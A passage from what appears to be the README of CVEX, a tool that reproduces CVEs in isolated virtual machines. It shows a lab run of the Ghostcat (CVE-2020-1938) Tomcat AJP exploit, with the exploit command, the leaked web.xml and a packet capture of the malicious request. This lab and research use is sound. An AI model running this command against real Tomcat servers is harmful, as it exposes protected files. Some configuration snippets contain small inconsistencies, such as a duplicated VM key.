changed: [ubuntu1]

TASK [Extract apache-tomcat-9.0.30.tar.gz] ****************************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Create symbolic link for Tomcat installation] *******************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Change ownership of the Tomcat directory] ***********************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Set environment variables for Tomcat] ***************************************************************************************************************************************************************
changed: [ubuntu1] => (item=CATALINA_HOME=/opt/tomcat/latest)
changed: [ubuntu1] => (item=JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64)

TASK [Create systemd service for Tomcat] ******************************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Reload systemd daemon] ******************************************************************************************************************************************************************************
ok: [ubuntu1]

TASK [Start and enable Apache Tomcat] *********************************************************************************************************************************************************************
changed: [ubuntu1]

PLAY RECAP ************************************************************************************************************************************************************************************************
ubuntu1                    : ok=13   changed=10   unreachable=0    failed=0    skipped=0    rescued=0    ignored=0   

```

Voilà, Apache Tomcat 9.0.30 has been installed on `ubuntu1`. Update `cvex.yml`:
```
blueprint: ubuntu2204-ubuntu2204
ubuntu1:
  playbook: ubuntu1.yml
```

Next step is to run the exploit on `ubuntu2`. Let's use this exploit: https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi/. In the same manner, the Ansible playbook `ubuntu2.yml` was created to install the `CNVD-2020-10487-Tomcat-Ajp-lfi.py` exploit, and the file itself was put to the `data` folder. The updated tree of the CVEX record folder should look like this:
```
$ tree records/CVE-2020-1938

records/CVE-2020-1938
├── cvex.yml
├── data
│   ├── apache-tomcat-9.0.30.tar.gz
│   └── CNVD-2020-10487-Tomcat-Ajp-lfi.py
├── ubuntu1.yml
└── ubuntu2.yml
```

Now run the Ansible playbook on `ubuntu2` to see if it works:
```
$ ansible-playbook -i ~/.cvex/bento_ubuntu-22.04/202404.23.0/2/inventory.ini records/CVE-2020-1938/ubuntu2.yml 

PLAY [Install the exploit for Apache Tomcat AJP Arbitrary File Read/Include Vulnerability（CVE-2020-1938）] ***********************************************************************************************

TASK [Gathering Facts] ************************************************************************************************************************************************************************************
[WARNING]: Platform linux on host ubuntu2 is using the discovered Python interpreter at /usr/bin/python3.10, but future installation of another Python interpreter could change the meaning of that path.
See https://docs.ansible.com/ansible-core/2.17/reference_appendices/interpreter_discovery.html for more information.
ok: [ubuntu2]

TASK [Update apt package index] ***************************************************************************************************************************************************************************
ok: [ubuntu2]

TASK [Install packages] ***********************************************************************************************************************************************************************************
changed: [ubuntu2]

TASK [Create /opt/exploit] ********************************************************************************************************************************************************************************
changed: [ubuntu2]

TASK [Copy CNVD-2020-10487-Tomcat-Ajp-lfi.py to /opt/exploit] *********************************************************************************************************************************************
changed: [ubuntu2]

PLAY RECAP ************************************************************************************************************************************************************************************************
ubuntu2                    : ok=5    changed=3    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0 
```

Great, the exploit has been copied to `ubuntu2`. Update `cvex.yml`:
```
blueprint: ubuntu2204-ubuntu2204
ubuntu1:
  playbook: ubuntu1.yml
ubuntu1:
  playbook: ubuntu2.yml
```

Let's see if the exploit works as expected. Connect to `ubuntu2` over SSH, and then run the exploit (knowing that `192.168.56.3` is the IP address of `ubuntu1`):
```
vagrant@ubuntu2:~$ python2 /opt/exploit/CNVD-2020-10487-Tomcat-Ajp-lfi.py 192.168.56.3 -p 8009 -f WEB-INF/web.xml

Getting resource at ajp13://192.168.56.3:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
```

Great, the vulnerability was exploited successfully: we were able to read a protected file! Now add the `command` parameter to the `ubuntu2` section of `cvex.yml`:
```
blueprint: ubuntu2204-ubuntu2204
ubuntu1:
  playbook: ubuntu1.yml
ubuntu2:
  playbook: ubuntu2.yml
  command: "python2 /opt/exploit/CNVD-2020-10487-Tomcat-Ajp-lfi.py %ubuntu1% -p 8009 -f WEB-INF/web.xml"
```

Before testing if the whole thing works, **delete** the `CVE-2020-1938/ubuntu1` and `CVE-2020-1938/ubuntu2` snapshots, otherwise CVEX will keep using them:
![Delete CVE-2020-1938/ubuntu1 snapshot](img/delete_CVE-1234-56789_ubuntu1.png)

Fire it all up:
```
~/CVEX$ cvex records/CVE-1234-56789

2024-10-23 15:46:56,016 - INFO - [router] Retrieving status of router...
2024-10-23 15:46:59,771 - INFO - [router] Retrieving snapshot list of router...
2024-10-23 15:47:02,330 - INFO - [router] Restoring VM router (192.168.56.2) to snapshot 'router'...
2024-10-23 15:47:32,103 - INFO - [ubuntu1] Looking for a VM with CVE-1234-56789/ubuntu1 snapshot...
2024-10-23 15:47:37,717 - INFO - [ubuntu1] Retrieving status of ubuntu1...
2024-10-23 15:47:42,577 - INFO - [ubuntu1] Retrieving snapshot list of ubuntu1...
2024-10-23 15:47:46,030 - INFO - [ubuntu1] Restoring VM ubuntu1 (192.168.56.3) to snapshot 'clean'...
2024-10-23 15:48:16,751 - INFO - [ubuntu1] Retrieving SSH configuration of ubuntu1...
2024-10-23 15:48:16,752 - INFO - [ubuntu1] Inventory /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/1/inventory.ini has been created
2024-10-23 15:48:16,752 - INFO - [ubuntu1] Executing Ansible playbook /ll/sources/CVEX/ansible/linux.yml...
2024-10-23 15:48:17,655 - INFO - [ubuntu1] 
2024-10-23 15:48:17,655 - INFO - [ubuntu1] PLAY [Linux] *******************************************************************
2024-10-23 15:48:17,655 - INFO - [ubuntu1] 
2024-10-23 15:48:17,655 - INFO - [ubuntu1] TASK [Gathering Facts] *********************************************************
2024-10-23 15:48:20,272 - INFO - [ubuntu1] [WARNING]: Platform linux on host ubuntu1 is using the discovered Python
2024-10-23 15:48:20,272 - INFO - [ubuntu1] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 15:48:20,272 - INFO - [ubuntu1] interpreter could change the meaning of that path. See
2024-10-23 15:48:20,272 - INFO - [ubuntu1] https://docs.ansible.com/ansible-
2024-10-23 15:48:20,272 - INFO - [ubuntu1] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 15:48:20,292 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 15:48:20,292 - INFO - [ubuntu1] 
2024-10-23 15:48:20,293 - INFO - [ubuntu1] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-10-23 15:48:21,652 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:48:21,652 - INFO - [ubuntu1] 
2024-10-23 15:48:21,652 - INFO - [ubuntu1] TASK [Run update-ca-certificates] **********************************************
2024-10-23 15:48:26,001 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:48:26,001 - INFO - [ubuntu1] 
2024-10-23 15:48:26,001 - INFO - [ubuntu1] PLAY RECAP *********************************************************************
2024-10-23 15:48:26,001 - INFO - [ubuntu1] ubuntu1                    : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 15:48:26,001 - INFO - [ubuntu1] 
2024-10-23 15:48:26,167 - INFO - [ubuntu1] Executing Ansible playbook records/CVE-1234-56789/ubuntu1.yml...
2024-10-23 15:48:27,031 - INFO - [ubuntu1] 
2024-10-23 15:48:27,031 - INFO - [ubuntu1] PLAY [Install Apache Tomcat vulnerable to AJP Arbitrary File Read/Include（CVE-2020-1938）] ***
2024-10-23 15:48:27,031 - INFO - [ubuntu1] 
2024-10-23 15:48:27,031 - INFO - [ubuntu1] TASK [Gathering Facts] *********************************************************
2024-10-23 15:48:31,657 - INFO - [ubuntu1] [WARNING]: Platform linux on host ubuntu1 is using the discovered Python
2024-10-23 15:48:31,657 - INFO - [ubuntu1] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 15:48:31,657 - INFO - [ubuntu1] interpreter could change the meaning of that path. See
2024-10-23 15:48:31,657 - INFO - [ubuntu1] https://docs.ansible.com/ansible-
2024-10-23 15:48:31,657 - INFO - [ubuntu1] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 15:48:31,676 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 15:48:31,676 - INFO - [ubuntu1] 
2024-10-23 15:48:31,676 - INFO - [ubuntu1] TASK [Update apt cache] ********************************************************
2024-10-23 15:48:47,362 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 15:48:47,362 - INFO - [ubuntu1] 
2024-10-23 15:48:47,362 - INFO - [ubuntu1] TASK [Install dependencies (Java and utilities)] *******************************
2024-10-23 15:49:30,767 - INFO - [ubuntu1] ok: [ubuntu1] => (item=curl)
2024-10-23 15:49:30,767 - INFO - [ubuntu1] ok: [ubuntu1] => (item=wget)
2024-10-23 15:49:30,767 - INFO - [ubuntu1] ok: [ubuntu1] => (item=tar)
2024-10-23 15:49:30,767 - INFO - [ubuntu1] changed: [ubuntu1] => (item=openjdk-11-jre-headless)
2024-10-23 15:49:30,767 - INFO - [ubuntu1] 
2024-10-23 15:49:30,767 - INFO - [ubuntu1] TASK [Create tomcat group] *****************************************************
2024-10-23 15:49:31,578 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:31,579 - INFO - [ubuntu1] 
2024-10-23 15:49:31,579 - INFO - [ubuntu1] TASK [Create tomcat user] ******************************************************
2024-10-23 15:49:32,595 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:32,595 - INFO - [ubuntu1] 
2024-10-23 15:49:32,596 - INFO - [ubuntu1] TASK [Create installation directory for Tomcat] ********************************
2024-10-23 15:49:33,554 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:33,554 - INFO - [ubuntu1] 
2024-10-23 15:49:33,555 - INFO - [ubuntu1] TASK [Extract apache-tomcat-9.0.30.tar.gz] *************************************
2024-10-23 15:49:36,535 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:36,535 - INFO - [ubuntu1] 
2024-10-23 15:49:36,535 - INFO - [ubuntu1] TASK [Create symbolic link for Tomcat installation] ****************************
2024-10-23 15:49:37,443 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:37,444 - INFO - [ubuntu1] 
2024-10-23 15:49:37,444 - INFO - [ubuntu1] TASK [Change ownership of the Tomcat directory] ********************************
2024-10-23 15:49:38,256 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:38,256 - INFO - [ubuntu1] 
2024-10-23 15:49:38,256 - INFO - [ubuntu1] TASK [Set environment variables for Tomcat] ************************************
2024-10-23 15:49:39,640 - INFO - [ubuntu1] changed: [ubuntu1] => (item=CATALINA_HOME=/opt/tomcat/latest)
2024-10-23 15:49:39,640 - INFO - [ubuntu1] changed: [ubuntu1] => (item=JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64)
2024-10-23 15:49:39,640 - INFO - [ubuntu1] 
2024-10-23 15:49:39,640 - INFO - [ubuntu1] TASK [Create systemd service for Tomcat] ***************************************
2024-10-23 15:49:41,117 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:41,117 - INFO - [ubuntu1] 
2024-10-23 15:49:41,117 - INFO - [ubuntu1] TASK [Reload systemd daemon] ***************************************************
2024-10-23 15:49:42,997 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 15:49:42,997 - INFO - [ubuntu1] 
2024-10-23 15:49:42,997 - INFO - [ubuntu1] TASK [Start and enable Apache Tomcat] ******************************************
2024-10-23 15:49:44,905 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:44,905 - INFO - [ubuntu1] 
2024-10-23 15:49:44,905 - INFO - [ubuntu1] PLAY RECAP *********************************************************************
2024-10-23 15:49:44,905 - INFO - [ubuntu1] ubuntu1                    : ok=13   changed=10   unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 15:49:44,905 - INFO - [ubuntu1] 
2024-10-23 15:49:45,221 - INFO - [ubuntu1] Creating snapshot 'CVE-1234-56789/ubuntu1' for VM ubuntu1 (192.168.56.3)...
2024-10-23 15:49:58,587 - INFO - [ubuntu2] Looking for a VM with CVE-1234-56789/ubuntu2 snapshot...
2024-10-23 15:50:04,497 - INFO - [ubuntu2] Retrieving status of ubuntu2...
2024-10-23 15:50:10,601 - INFO - [ubuntu2] Retrieving snapshot list of ubuntu2...
2024-10-23 15:50:14,227 - INFO - [ubuntu2] Restoring VM ubuntu2 (192.168.56.4) to snapshot 'clean'...
2024-10-23 15:50:49,252 - INFO - [ubuntu2] Retrieving SSH configuration of ubuntu2...
2024-10-23 15:50:49,252 - INFO - [ubuntu2] Inventory /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/2/inventory.ini has been created
2024-10-23 15:50:49,252 - INFO - [ubuntu2] Executing Ansible playbook /ll/sources/CVEX/ansible/linux.yml...
2024-10-23 15:50:50,121 - INFO - [ubuntu2] 
2024-10-23 15:50:50,121 - INFO - [ubuntu2] PLAY [Linux] *******************************************************************
2024-10-23 15:50:50,121 - INFO - [ubuntu2] 
2024-10-23 15:50:50,121 - INFO - [ubuntu2] TASK [Gathering Facts] *********************************************************
2024-10-23 15:50:54,287 - INFO - [ubuntu2] [WARNING]: Platform linux on host ubuntu2 is using the discovered Python
2024-10-23 15:50:54,287 - INFO - [ubuntu2] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 15:50:54,287 - INFO - [ubuntu2] interpreter could change the meaning of that path. See
2024-10-23 15:50:54,287 - INFO - [ubuntu2] https://docs.ansible.com/ansible-
2024-10-23 15:50:54,287 - INFO - [ubuntu2] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 15:50:54,321 - INFO - [ubuntu2] ok: [ubuntu2]
2024-10-23 15:50:54,321 - INFO - [ubuntu2] 
2024-10-23 15:50:54,321 - INFO - [ubuntu2] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-10-23 15:50:55,731 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:50:55,732 - INFO - [ubuntu2] 
2024-10-23 15:50:55,732 - INFO - [ubuntu2] TASK [Run update-ca-certificates] **********************************************
2024-10-23 15:50:59,811 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:50:59,812 - INFO - [ubuntu2] 
2024-10-23 15:50:59,812 - INFO - [ubuntu2] PLAY RECAP *********************************************************************
2024-10-23 15:50:59,812 - INFO - [ubuntu2] ubuntu2                    : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 15:50:59,812 - INFO - [ubuntu2] 
2024-10-23 15:50:59,941 - INFO - [ubuntu2] Executing Ansible playbook records/CVE-1234-56789/ubuntu2.yml...
2024-10-23 15:51:00,716 - INFO - [ubuntu2] 
2024-10-23 15:51:00,716 - INFO - [ubuntu2] PLAY [Install the exploit for Apache Tomcat AJP Arbitrary File Read/Include Vulnerability（CVE-2020-1938）] ***
2024-10-23 15:51:00,716 - INFO - [ubuntu2] 
2024-10-23 15:51:00,717 - INFO - [ubuntu2] TASK [Gathering Facts] *********************************************************
2024-10-23 15:51:03,202 - INFO - [ubuntu2] [WARNING]: Platform linux on host ubuntu2 is using the discovered Python
2024-10-23 15:51:03,202 - INFO - [ubuntu2] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 15:51:03,203 - INFO - [ubuntu2] interpreter could change the meaning of that path. See
2024-10-23 15:51:03,203 - INFO - [ubuntu2] https://docs.ansible.com/ansible-
2024-10-23 15:51:03,203 - INFO - [ubuntu2] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 15:51:03,222 - INFO - [ubuntu2] ok: [ubuntu2]
2024-10-23 15:51:03,223 - INFO - [ubuntu2] 
2024-10-23 15:51:03,223 - INFO - [ubuntu2] TASK [Update apt package index] ************************************************
2024-10-23 15:51:20,141 - INFO - [ubuntu2] ok: [ubuntu2]
2024-10-23 15:51:20,141 - INFO - [ubuntu2] 
2024-10-23 15:51:20,141 - INFO - [ubuntu2] TASK [Install packages] ********************************************************
2024-10-23 15:51:40,027 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:51:40,027 - INFO - [ubuntu2] 
2024-10-23 15:51:40,028 - INFO - [ubuntu2] TASK [Create /opt/exploit] *****************************************************
2024-10-23 15:51:40,762 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:51:40,762 - INFO - [ubuntu2] 
2024-10-23 15:51:40,762 - INFO - [ubuntu2] TASK [Copy CNVD-2020-10487-Tomcat-Ajp-lfi.py to /opt/exploit] ******************
2024-10-23 15:51:42,715 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:51:42,715 - INFO - [ubuntu2] 
2024-10-23 15:51:42,715 - INFO - [ubuntu2] PLAY RECAP *********************************************************************
2024-10-23 15:51:42,715 - INFO - [ubuntu2] ubuntu2                    : ok=5    changed=3    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 15:51:42,716 - INFO - [ubuntu2] 
2024-10-23 15:51:42,845 - INFO - [ubuntu2] Creating snapshot 'CVE-1234-56789/ubuntu2' for VM ubuntu2 (192.168.56.4)...
2024-10-23 15:51:54,458 - INFO - [router] Executing 'ls /etc/netplan'...
2024-10-23 15:51:56,534 - INFO - [router] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 15:51:56,591 - INFO - [router] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 15:51:56,613 - INFO - [router] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 15:51:56,644 - INFO - [router] Uploading /tmp/cvex.yaml...
2024-10-23 15:51:56,662 - INFO - [router] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 15:51:56,700 - INFO - [router] Executing 'sudo ip link set eth1 up'...
2024-10-23 15:51:56,795 - INFO - [router] Executing 'sudo netplan apply'...
2024-10-23 15:51:58,731 - INFO - [router] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 15:51:58,810 - INFO - [router] Executing 'sudo systemctl restart ufw'...
2024-10-23 15:51:58,908 - INFO - [ubuntu1] Executing 'ls /etc/netplan'...
2024-10-23 15:52:00,760 - INFO - [ubuntu1] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 15:52:00,813 - INFO - [ubuntu1] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 15:52:00,828 - INFO - [ubuntu1] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 15:52:00,846 - INFO - [ubuntu1] Uploading /tmp/cvex.yaml...
2024-10-23 15:52:00,871 - INFO - [ubuntu1] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 15:52:00,925 - INFO - [ubuntu1] Executing 'sudo ip link set eth1 up'...
2024-10-23 15:52:01,010 - INFO - [ubuntu1] Executing 'sudo netplan apply'...
2024-10-23 15:52:03,486 - INFO - [ubuntu1] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 15:52:03,563 - INFO - [ubuntu1] Executing 'sudo systemctl restart ufw'...
2024-10-23 15:52:03,669 - INFO - [ubuntu1] Downloading /etc/hosts...
2024-10-23 15:52:03,720 - INFO - [ubuntu1] Uploading /tmp/hosts...
2024-10-23 15:52:03,734 - INFO - [ubuntu1] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-10-23 15:52:03,771 - INFO - [ubuntu2] Executing 'ls /etc/netplan'...
2024-10-23 15:52:04,795 - INFO - [ubuntu2] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 15:52:04,851 - INFO - [ubuntu2] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 15:52:04,872 - INFO - [ubuntu2] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 15:52:04,939 - INFO - [ubuntu2] Uploading /tmp/cvex.yaml...
2024-10-23 15:52:04,952 - INFO - [ubuntu2] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 15:52:05,000 - INFO - [ubuntu2] Executing 'sudo ip link set eth1 up'...
2024-10-23 15:52:05,071 - INFO - [ubuntu2] Executing 'sudo netplan apply'...
2024-10-23 15:52:07,314 - INFO - [ubuntu2] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 15:52:07,411 - INFO - [ubuntu2] Executing 'sudo systemctl restart ufw'...
2024-10-23 15:52:07,507 - INFO - [ubuntu2] Downloading /etc/hosts...
2024-10-23 15:52:07,556 - INFO - [ubuntu2] Uploading /tmp/hosts...
2024-10-23 15:52:07,563 - INFO - [ubuntu2] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-10-23 15:52:07,611 - INFO - [router] Executing 'pkill mitmdump'...
2024-10-23 15:52:07,642 - INFO - [router] Executing 'sudo pkill tcpdump'...
2024-10-23 15:52:07,711 - INFO - [router] Executing 'rm -rf /tmp/cvex'...
2024-10-23 15:52:07,801 - INFO - [router] Executing 'mkdir /tmp/cvex'...
2024-10-23 15:52:07,858 - INFO - [router] Executing 'sudo sysctl net.ipv4.ip_forward=1'...
2024-10-23 15:52:07,943 - INFO - [router] Executing 'sudo tcpdump -i eth1 -U -w /tmp/cvex/router_raw.pcap'...
2024-10-23 15:52:07,980 - INFO - [router] Executing 'sudo iptables -t nat -I PREROUTING --src 0/0 --dst 0/0 -p tcp --dport 443 -j REDIRECT --to-ports 8080'...
2024-10-23 15:52:08,529 - INFO - [router] Executing 'mitmdump --mode transparent -k --set block_global=false -w /tmp/cvex/router_mitmdump.stream'...
2024-10-23 15:52:11,885 - INFO - [ubuntu2] Executing 'python2 /opt/exploit/CNVD-2020-10487-Tomcat-Ajp-lfi.py 192.168.56.3 -p 8009 -f WEB-INF/web.xml'...
2024-10-23 15:52:12,358 - INFO - [router] Wait for 5 seconds to let tcpdump and mitmdump flush logs on disk...
2024-10-23 15:52:17,358 - INFO - [router] Downloading /tmp/cvex/router_raw.pcap...
2024-10-23 15:52:17,457 - INFO - [router] Downloading /tmp/cvex/router_mitmdump.stream...
2024-10-23 15:52:17,465 - INFO - [router] Stopping VM router...
2024-10-23 15:52:31,702 - INFO - [ubuntu1] Stopping VM ubuntu1...
2024-10-23 15:52:59,091 - INFO - [ubuntu2] Stopping VM ubuntu2...
```

Let's see if CVEX was able to catch network interaction of the exploit with the Tomcat:
```
~/CVEX$ tcpdump -qns 0 -A -r out/router_raw.pcap
```

Indeed, we see the attacker `192.168.56.4` (`ubuntu2`) connecting to `192.168.56.3:8009` (`ubuntu1`):
```
16:15:12.002248 IP 192.168.56.4.49896 > 192.168.56.3.8009: tcp 0
E..<.Q@.?.v...8...8....I,[d..........o.........
.
..........
16:15:12.003393 IP 192.168.56.3.8009 > 192.168.56.4.49896: tcp 0
E..<..@.@.Id..8...8..I......,[d................
3{.-.
......
```

Then the attacker is sending the malicious request to read the protected `WEB-INF/web.xml` file:
```
16:15:12.020448 IP 192.168.56.4.49896 > 192.168.56.3.8009: tcp 398
E....S@.@.s...8...8....I,[d................
.
..3{.-.4......HTTP/1.1.../asdf...192.168.56.3.....192.168.56.3..P..	...
keep-alive...Accept-Language...en-US,en;q=0.5.....0...Accept-Encoding...gzip, deflate, sdch...Cache-Control..	max-age=0.....Mozilla...Upgrade-Insecure-Requests...1....	text/html.....192.168.56.3.
.!javax.servlet.include.request_uri.../.
..javax.servlet.include.path_info...WEB-INF/web.xml.
."javax.servlet.include.servlet_path.../..
```

Apache Tomcat replies with the content of the `WEB-INF/web.xml` file:
```
16:15:12.128822 IP 192.168.56.3.8009 > 192.168.56.4.49896: tcp 1235
E.....@.@.G...8...8..I.....a,[fX....b......
3{...
.cAB.....<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
.
```

Format of `cvex.yml`:
```
blueprint: ...   # Blueprint name from the "blueprints" folder
ports: ...       # HTTPS port(s) as integer or list of integers (optional; 443 by default)
...:             # Name of the VM as in the blueprint (optional)
  trace: ...     # Name of the process for API tracing (optional); for Windows: partial name of the process; for Linux: regular expression
  playbook: ...  # Ansible playbook (optional)
  command: ...   # Command or list of commands to execute on this VM (optional)
...:
  trace: ...
  playbook: ...
  command: ...
...
```

`command` is treated in a special way:
1. `%vm_name%` will be replaced with the IP address of the VM: `curl https://%ubuntu%:8080/` will turn into `curl https://192.168.56.3:8080/`
2. Optional `&` at the end of the command tells CVEX that it is non-blocking: for `curl https://%ubuntu%:8080/&` CVEX executes `curl https://192.168.56.3:8080/`, and then immediately executes next command without waiting for curl to finish execution
3. Optional `~~~` splits the command into two parts: 1) the command; 2) the message: for `curl https://%ubuntu%:8080/&~~~Downloaded` CVEX executes `curl https://192.168.56.3:8080/`, then waits until curl prints `Downloaded` to stdout, and then immediately executes next command without waiting for curl to finish execution

CVEX blueprints define minimal network deployments:
- Ubuntu host attacking Window host
- Window host attacking Ubuntu host
- Ubuntu host attacking multiple Windows hosts
- ...

The `ubuntu2204-ubuntu2204` blueprint that we used is stored in [blueprints/ubuntu2204-ubuntu2204/blueprint.yml](blueprints/ubuntu2204-ubuntu2204/blueprint.yml):
```
ubuntu1:
  image: "bento/ubuntu-22.04"
  version: "202404.23.0"
  type: "linux"
ubuntu2:
  image: "bento/ubuntu-22.04"
  version: "202404.23.0"
  type: "linux"
```

Format of `blueprint.yml`:
```
...:             # Name of the VM
  image: ...     # Vagrant image
  version: ...   # Vagrant image version
  type: ...      # "windows" or "linux"
  playbook: ...  # Ansible playbook (optional)
...:
  image: ...
  version: ...
  type: ...
  playbook: ...
...
```

Contributors can provide additional blueprints.

## Contributions

To contribute a new CVEX record, create a pull request for a new subfolder inside [records](records) with the following infrastructure:
```
records/CVE-XXXX-YYYYY
├── cvex.yml
├── data
│   ├── file1.ext
│   ├── file2.ext
│   ├── file3.ext
│   ├── ...
│   └── fileN.ext
├── ansible_playbook1.yml
├── ansible_playbook2.yml
├── ansible_playbook3.yml
├── ...
└── ansible_playbookN.yml
```

Use Git LFS (Large File Storage) for big files.

To contribute a new blueprint, create a pull request for a new subfolder inside [blueprints](blueprints) with the following infrastructure:
```
blueprints/blueprint-name
├── blueprint.yml
└── ansible_playbook.yml
```

## Notes

Sometimes VM initialization takes longer than expected:
```
2024-09-13 14:03:41,858 - CRITICAL - [windows] VM windows timed out. Please wait until the VM is started and then re-start CVEX with the '-k' parameter.
```

In this case we need to wait until the VM is up and the OS is aready. For example, use the VirtualBox GUI. As soon as the OS fully loads, re-run CVEX with `-k`. With this parameter CVEX uses the VMs that are already running. Be mindful, `cvex -k` will also leave the VMs running (which is great for debugging).

</details>

## Manage VMs

CVEX executed with `-l` parameter shows the list of cached VMs:
```
$ cvex -l
2024-09-19 10:41:45,410 - INFO - [main] Cached VMs:
2024-09-19 10:41:45,410 - INFO - [main] router
2024-09-19 10:41:45,410 - INFO - [main] gusztavvargadr_windows-10/2202.0.2404/1
2024-09-19 10:41:45,411 - INFO - [main] bento_ubuntu-22.04/202404.23.0/1
```

CVEX executed with `-d` parameter destroys the specific VM and deletes all corresponding files in the `~/.cvex` folder:
```
$ cvex -d gusztavvargadr_windows-10/2202.0.2404/1
2024-09-19 10:45:57,769 - INFO - [stub] Destroying VM stub...
```

However, even though the VM disappears from the VirtialBox GUI, some remnants may remain in the `~/VirtualBox VMs` folder. Delete them manually.

`cvex -d all` destroys all VMs.

